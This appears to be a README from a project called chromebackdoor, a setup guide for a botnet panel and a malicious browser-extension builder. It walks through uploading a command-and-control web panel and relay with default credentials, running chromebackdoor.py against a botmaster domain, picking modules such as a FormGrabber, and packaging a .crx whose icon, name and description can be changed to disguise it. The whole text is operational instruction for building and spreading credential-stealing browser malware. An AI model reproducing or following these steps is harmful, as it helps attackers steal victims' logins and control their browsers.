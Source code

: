 #INSTALL WEB

1) unzip file generated by chromebackdoor

```sh
unzip folder.zip
```

2) Upload a folder web & relais on hosting

3) create database & user and update config file
```sh
/web/includes/config.php
```

4) Upload .SQL on database

```sh
/SQL/chromebackdoor.sql
```

5) Login on webpanel (web/index.php)
```python
username = root
password = toor
```

#GENERATE BOT (without .EXE)

install all dependency & start chromebackdoor.py

```sh
python chromebackdoor.py
```

You can generate backdoor for all most popular browser

exemple for Google Chrome:

```sh
python chromebackdoor.py --chrome
```

Now enter a botmaster domain name (need SSL):

```bash
[?] Website hosted (https://localhost/)? https://lynxframework.com/
```
Same for relais (need SSL):
```sh
[?] Website relais url (https://localhost/relais)? https://lynxrelay.com/relais
or use same domain
[?] Website relais url (https://localhost/relais)? https://lynxframework.com/relais
```
```sh
[?] Information correct [Y/n]? Y
```

Select one module (exemple FormGrabber V1.0)
```sh
[?] please select numbers ? 2
```

The script  generate zip file with .crx .perm and backdoor folder for update icon / name / desc
